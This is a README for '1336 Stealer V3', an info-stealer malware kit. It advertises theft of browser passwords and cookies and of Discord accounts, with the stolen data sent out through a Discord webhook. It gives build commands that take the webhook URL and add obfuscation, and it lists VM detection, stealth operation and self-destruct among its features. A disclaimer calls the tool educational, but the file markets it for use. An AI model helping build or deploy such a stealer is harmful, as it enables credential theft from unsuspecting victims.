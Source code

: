 # 🔥 1336 Stealer V3 - Modular Edition

A completely restructured, clean, modular, and efficient data collection tool with professional architecture.

## ⚡ Quick Start

```bash
# Install dependencies
npm install

# Run in development mode
npm start

# Build executable
./build.sh https://your-webhook-url.com MyApp

# Build with obfuscation
./build.sh https://your-webhook-url.com MyApp --obfuscate --compress
```

## 🏗️ What's New in V3

### ✨ Complete Architecture Overhaul
- **Modular Design**: Independent, reusable modules
- **Clean Code**: Professional structure and documentation
- **Error Handling**: Comprehensive error management
- **Logging**: Structured logging system
- **Configuration**: Centralized config management

### 📁 New Structure
```
src/
├── config/           # Configuration management
├── core/            # Core utilities and systems
├── modules/         # Feature modules (browsers, crypto, etc.)
├── services/        # External services (discord, upload)
└── main.js         # Application entry point
```

### 🚀 Key Features
- **Cross-platform**: Works on Windows, Linux, macOS
- **Modular**: Enable/disable features independently
- **Efficient**: Optimized performance and resource usage
- **Professional**: Clean code with proper error handling
- **Documented**: Comprehensive documentation

## 📊 Modules

| Module | Status | Description |
|--------|---------|-------------|
| 🌐 Browsers | ✅ Active | Chrome, Firefox, Edge, Opera, Brave |
| 💬 Discord | ✅ Active | Account extraction & webhooks |
| 💰 Crypto | 🔄 Planned | Cryptocurrency wallets |
| 📁 Files | 🔄 Planned | File system scanning |
| 🎮 Games | 🔄 Planned | Gaming platforms |
| 💉 Injection | 🔄 Planned | Browser injection |

## ⚙️ Configuration

### Environment Variables
```bash
WEBHOOK_URL=https://discord.com/api/webhooks/...
NODE_ENV=production
LOG_LEVEL=INFO
ENABLE_BROWSERS=true
ENABLE_DISCORD=true
```

### Configuration File
```json
{
  "webhook": {
    "url": "YOUR_WEBHOOK_URL"
  },
  "modules": {
    "enabled": {
      "browsers": true,
      "discord": true,
      "crypto": false,
      "files": false
    }
  }
}
```

## 🔨 Building

The new modular build system supports:
- Code obfuscation
- Multi-platform targets
- Compression options
- Configuration injection

```bash
# Basic build
node build/builder.js <webhook> <name>

# Advanced build
node build/builder.js <webhook> <name> --obfuscate --compress --target node16-win-x64
```

## 📚 Documentation

- [Full Documentation](docs/README.md)
- [Architecture Guide](docs/README.md#architecture-overview)
- [Module Development](docs/README.md#development)

## 🛡️ Security

- VM detection (configurable)
- Stealth operation
- Encrypted communications
- Self-destruct options
- Obfuscated builds

## 📊 Statistics

Real-time tracking of:
- Browser data (passwords, cookies, etc.)
- System information
- Module execution status
- File operations

## 🤝 Contributing

This project follows professional development standards:
- Modular architecture
- Comprehensive error handling
- Structured logging
- Clean code principles

## ⚠️ Disclaimer

This tool is for educational and authorized testing purposes only. Users are responsible for compliance with applicable laws and regulations.

## 📜 License

MIT License - See LICENSE file for details.

---

*Built with ❤️ for the security research community*
